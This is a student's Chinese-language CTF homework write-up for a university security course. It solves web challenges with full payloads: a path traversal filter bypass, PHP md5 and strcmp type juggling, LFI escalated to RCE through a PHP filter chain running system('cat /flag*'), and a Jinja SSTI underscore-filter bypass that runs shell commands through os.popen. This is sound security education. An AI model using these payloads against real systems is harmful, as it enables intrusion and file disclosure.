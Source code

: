 ```yaml
---
title: "【網路安全實務與社會實踐】作業二 Write-up"
published: 2025-03-26T00:00:00.000Z
description: ""
tags: []
category: "general"
draft: false
---
```

# 作業二 Write-up by owl_d
### pathwalker-waf2
發現這題的path traversal重點在這個區間
```php
<?php
      if (isset($_GET['page'])) {
        $safe_path = str_replace('../', '', $_GET['page']);
        echo file_get_contents("./page/".$safe_path.".php");
      }      
    ?>
```
程式只有把 ../ 換掉
所以可以使用 ..././ 的方式來 bypass
..././ 被換掉後會變成 ../ 就一樣可以達成回到上一層的目的

`https://chall.nckuctf.org:28142/?page=..././..././..././..././var/www/html/flag`
即取得flag

p.s. 這題沒辦法用 ..%2f 的方式來bypass，會被當成 ../ 過濾掉

<!--more-->

### swirl
Stage 1: 
```php
<?php
include('config.php');
echo '<h1>👻 Stage 1 / 4</h1>';

$A = $_GET['A'];
$B = $_GET['B'];

highlight_file(__FILE__);
echo '<hr>';

if (isset($A) && isset($B))
    if ($A != $B)
        if (strcmp($A, $B) == 0)
            if (md5($A) === md5($B))
                echo "<a href=$stage2>Go to stage2</a>";
            else die('ERROR: MD5(A) != MD5(B)');
        else die('ERROR: strcmp(A, B) != 0');
    else die('ERROR: A == B');
else die('ERROR: A, B should be given');
```
弱型態比較，可以使用 md5(array型態) = NULL 的性質來達成
payload: `?A[]=1&B[]=2`



Stage 2:
```php
<?php
include('config.php');
echo '<h1>👻 Stage 2 / 4</h1>';

$A = $_GET['A'];
$B = $_GET['B'];

highlight_file(__FILE__);
echo '<hr>';

if (isset($A) && isset($B))
    if ($A !== $B){
        $is_same = md5($A) == 0 and md5($B) === 0;
        if ($is_same)
            echo (md5($B) ? "QQ1" : md5($A) == 0 ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2");
        else die('ERROR: $is_same is false');
    }
else die('ERROR: A, B should be given');
```
關鍵點應該在這：
`md5($B) ? "QQ1" : md5($A) == 0 ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2"`
看起來有點複雜，但我們可以一部分一部分拆開來看
`md5($B) ? "QQ1" : (目標要到這邊)` 
可以看出來 b 必須得是 false，才能繼續往下
進到下一層後，
`md5($A) == 0 ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2"`
所以 md5($A) 必須得是0
整理一下條件：
1. A 和 B 的值必須不同
2. md5(A) 和 md5(B) 都必須等於 0
3. md5(B) 必須為假值

payload: `?A[]=1&B[]=2`


有趣的事：
意外發現 payload: `?A=true&B=false` 也行得通
可是我自己做了實驗
![image](https://hackmd.io/_uploads/rJX2pUxTJg.png)
發現程式根本就應該跳到 QQ1 就算 QQ1 被調過了應該也要跳去 QQ2
到現在我還是不懂是什麼神奇的機制繞過的，我再研究看看


Stage 3:
.. 會變成 .
那 .... 就會變成 .. 了！
payload: `....\config.php`
(記得要打開網頁原始碼看！)
![image](https://hackmd.io/_uploads/Hkv_1tA31e.png)

Stage 4:
寫完這題發現 LCI 轉 RCE 真的是天才般的發現，太神了
先觀察題目source，會發現主要漏洞在：

1. 使用了 extract($_POST) 函數，直接將 POST 請求中的參數轉換為變數
2. 未經過濾的 include($👀) 語句，允許包含任意文件

所以先試了一下 POST 👀=/etc/passwd：
發現真的有回傳內容，代表 LFI 行得通
![image](https://hackmd.io/_uploads/B1P8D8gpkg.png)


可是 👀=/flag 或者  👀=../../../flag.php 等等直接取 flag 的方式全部失敗
所以勢必得要 RCE 才能印出 flag 了

這次攻擊主要採用 PHP filter chain 來達成
https://github.com/synacktiv/php_filter_chain_generator/blob/main/README.md
指令：`python3 php_filter_chain_generator.py --chain "<?php system('cat /flag*'); ?>"`
送到 POST 的 👀 後面變取得 flag

p.s. 最後我還用了 `python3 php_filter_chain_generator.py --chain "<?php system('ls /'); ?>"`
回頭再看一下爲什麼當初試了快 5 個小時的 ../../flag.php 不管用
最後也看到了 flag 檔案有加後綴，所以 path traversal 其實不管用
![image](https://hackmd.io/_uploads/S1r4DUe6yx.png)



### SSTI-waf1
一開始先送送看 `{{7*7}}` 發現真的回應 49
那肯定得是個 SSTI 了！

![image](https://hackmd.io/_uploads/B1xZc0yT1x.png)
從source發現題目會擋掉 _ 底線
所以把底線用 `\5f` 來繞過
並且用 `attr` 代替 點 來做串接

一開始先用ls / 看根目錄有沒有值得注意的檔案
`{{ cycler|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('os')|attr('popen')('ls /')|attr('read')() }}`
發現網頁回應：
![image](https://hackmd.io/_uploads/Sk3ycRJ6kx.png)


有 flag 檔案，cat 一下便可以得到解答
payload: 
`{{ cycler|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('os')|attr('popen')('cat /flag')|attr('read')() }}`


